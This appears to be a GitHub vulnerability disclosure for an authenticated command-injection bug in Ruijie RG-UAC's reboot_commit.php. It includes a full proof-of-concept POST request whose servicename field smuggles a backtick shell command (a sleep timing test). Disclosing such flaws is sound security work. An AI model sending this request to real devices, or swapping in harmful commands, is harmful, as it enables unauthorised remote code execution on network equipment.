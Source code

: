 Ruijie Network is a professional network manufacturer with a full range of network equipment products and solutions including switches, routers, software, security firewalls, wireless products, storage, etc.

There is a command execution vulnerability in Ruijie RG-UAC. Attackers exploit vulnerabilities to compromise servers.

official：https://www.ruijie.com.cn


version:1.0

/view/systemConfig/reboot/reboot_commit.php
The key code is marked, the variable $rebootmode is not equal to 1, and $servicename is controllable, directly substituted into exec, resulting in rce vulnerability.
<img width="590" alt="图片" src="https://github.com/L1OudFd8cl09/CVE/assets/171104034/9a5ecf6c-e275-4b32-b391-b4936b5e4629">


Login background, construct poc, successfully verify rce vulnerability

poc：
POST /view/systemConfig/reboot/reboot_commit.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=f8a12a507141292b1dabce52b88335da
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 45

rebootmode=222&servicename==`sleep${IFS}10`;1

<img width="599" alt="图片" src="https://github.com/L1OudFd8cl09/CVE/assets/171104034/a6ace9ed-dead-4531-8e8d-7252c83e9bd6">

